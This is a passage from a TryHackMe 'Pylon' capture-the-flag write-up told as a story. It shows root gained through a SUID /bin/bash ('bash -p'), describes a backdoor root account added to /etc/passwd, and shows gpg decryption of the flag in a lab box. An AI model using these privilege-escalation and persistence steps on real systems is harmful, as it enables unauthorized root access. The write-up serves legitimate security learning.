 ![image](https://user-images.githubusercontent.com/73745039/113448883-953c6a80-93f4-11eb-9a71-cd77a70fe59c.png)


```
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
lone@pylon:~$ /bin/bash -p
bash-4.4# ls /root
root.txt.gpg
```

While taking notes of all of this, just out of curiosity, Mia checked the root directory. Seems like there was something there actually. A gpg file no less, but one needed an account to actually be able to decrypt it and she technically was just in a bash shell right now. 

From here she could temporarily elevate Pood or Lone’s account to root privileges, or she could create one of her own. She decided to go for the latter, adding “Mia” as a root account into the /etc/passwd file. She took special pleasure in doing that, feeling like her years of study paid off.

```
lone@pylon:~$ su mia
Password: 
root@pylon:/home/lone# cd /root
root@pylon:~# gpg -d root.txt.gpg 
gpg: encrypted with 3072-bit RSA key, ID 91B77766BE20A385, created 2021-01-27
      "I am g ROOT <root@pylon.thm>"
ThM{REDACTED}
root@pylon:~# 
```

She was hoping against hope that what was in the root directory was nothing serious, and thankfully, it really wasn’t. Seems like she hadn’t been the first person to discover this exploit, but her colleagues had definitely set it up so they could play around a bit.

Glad that she had found this vulnerability, Mia finished her report with a smirk on her lips. She exited from the root account, closed the computer, and walked off the office. She’d have a lot to say the next day about Pylon, but for now, she was happy.


###### Author's Note: I hope you’ve enjoyed this different kind of writeup. If you have any suggestions or comments please feel free to reach out to my contacts at [whoami](https://rondons.github.io/Journey-Into-Cyber/whoami).

< [Back](https://rondons.github.io/Journey-Into-Cyber/THMWriteups)


